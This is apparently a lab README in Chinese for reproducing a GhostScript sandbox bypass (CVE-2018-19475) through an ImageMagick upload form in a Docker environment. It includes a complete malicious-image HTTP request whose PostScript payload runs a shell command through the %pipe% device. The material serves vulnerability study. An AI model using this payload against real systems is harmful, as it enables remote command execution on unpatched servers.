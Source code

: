 # GhostScript 沙箱绕过（命令执行）漏洞（CVE-2018-19475）

2018年底来自Semmle Security Research Team的Man Yue Mo发表了CVE-2018-16509漏洞的变体CVE-2018-19475，可以通过一个恶意图片绕过GhostScript的沙盒，进而在9.26以前版本的gs中执行任意命令。

参考链接：

- https://blog.semmle.com/ghostscript-CVE-2018-19475/
- https://bugs.ghostscript.com/show_bug.cgi?id=700153

## 漏洞环境

执行如下命令启动漏洞环境（其中包括 GhostScript 9.25、ImageMagick 7.0.8-20）：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将可以看到一个上传组件。

## 漏洞复现

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
content-Type="image/png"

%!PS
0 1 300367 {} for
{save restore} stopped {} if
(%pipe%id > /tmp/success && cat /tmp/success) (w) file
------WebKitFormBoundaryukZmnyhO--

```

命令已成功执行：

![](1.png)

当然，真实环境下通常无法直接回显漏洞执行结果，你需要使用带外攻击的方式来检测漏洞。
